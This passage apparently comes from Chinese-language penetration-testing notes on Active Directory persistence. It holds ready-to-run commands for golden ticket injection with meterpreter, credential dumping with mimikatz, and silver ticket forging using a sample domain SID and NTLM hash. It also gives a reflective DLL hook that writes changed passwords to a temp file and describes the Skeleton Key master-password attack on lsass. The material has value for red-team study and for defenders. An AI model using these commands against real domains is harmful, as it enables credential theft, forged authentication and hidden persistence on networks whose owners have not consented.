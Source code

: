 ```

# 注入票据
meterpreter > kerberos_ticket_use golden.kiribi    # 直接使用
```

### 白银票据

主要是制作`ST`票据，不会`KDC`交流，直接发送到服务确认。每次制造的票据只能用于访问一个服务。

域管理员上收集信息：

```
# 获取域控sid
whoami /user

# 获取 ntlm 哈希、和主机名
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit">log.txt
```

在域用户上执行，会自动将票据注入。

```
mimikatz.exe "kerberos::golden /domain:king.com /sid:S-1-5-21-1100079753-1400930603-3000301551 /target:WIN-8VSIF64RC10.king.com /service:cifs /rc4:<1bd736c7b3fc68abd61863a15704a661 /user:secquan /ptt"

参数如下：
domain:  域
sid：    域管理员的sid
target： 域控主机名+域
service：要伪造服务票据
rc4：    是 administrator$ 的ntlm哈希，不是 administrator 的哈希，也就是server的哈希
user：   随便指定一个用户
```

只要记录下域管理员的 主机名、服务的哈希、域管理员的sid，下次按需生成服务白银票据。

### 检测域内密码修改

工具：https://github.com/Jumbo-WJB/Misc-Windows-Hacking

只需要文件夹中的`HookPasswordChange.dll`和`Invoke-ReflectivePEInjection.ps1`

```
# 导入包
powershell.exe -ExecutionPolicy Bypass -File Invoke-ReflectivePEInjection.ps1

# 然后修改密码，密码就会被保存在 C:\windows\temp\password.txt 
```

### Skeleton Key

Skeleton Key被安装在64位的域控服务器上,支持Windows Server2003到Windows Server2012 R2,能够让所有域用户使用同一个万能密码（默认密码为"mimikatz"）进行登录，现有的所有域用户使用原密码仍能继续登录，注意并不能更改用户权限。

由于 Skeleton Key 是被注入到 lsass.exe 进程的，所以它只存在于内存中，如果域控制器重启，注入的 Skeleton Key 将会失效。
